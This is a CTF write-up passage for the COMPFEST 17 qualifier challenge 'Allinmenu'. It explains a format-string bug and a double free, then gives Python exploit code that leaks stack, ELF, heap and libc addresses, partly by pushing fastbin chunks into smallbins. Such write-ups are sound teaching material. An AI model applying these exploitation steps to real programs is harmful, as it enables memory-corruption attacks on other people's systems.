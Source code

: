 ![alt](../../../img/CTFNational/COMPFEST_17_CTF_Qual/Allinmenu.png)
1. `chunk[idx] = malloc(size)` chunk with size given limited to 0x78 also asking for the idx and content.
2. `printf(*(chunk[idx]))` it will print the chunk content
3. `free(chunk[idx])` free the chunk with idx given
4. exit the program with return

The vuln here is format strings (it doesn't accept $ in the input) and double free. So first i leak the stack and elf address with format strings.         

```python
alloc(1, 0x78, b"%p."*10)
view(1)
leaks = rl().split(b".")
print(leaks)
stack = int(leaks[0],16)
ret = stack + 0x4878
elf_leak = int(leaks[8],16)
elf.address = elf_leak - (elf.sym["main"] + 249)
```

After that leak heap & libc with moving the fastbin to smallbins using scanf.

```python
for i in range(9):
    alloc(2 + i, 0x78, b"A")
for i in reversed(range(7)):
    free(1 + i)
free(8)
menu(2)
sla(": ", b"8".rjust(1024,b"0")) #Move fastbin to smallbins
rl()
libc_leak = u64(rl().strip().ljust(8, b"\x00"))
libc.address = libc_leak - (libc.sym["main_arena"] + 208)

view(7)
heap_leak = u64(rl().strip().ljust(8, b"\x00")) << 12
heap = heap_leak
for i in range(9):
    alloc(2 + i, 0x78, b"A")
```
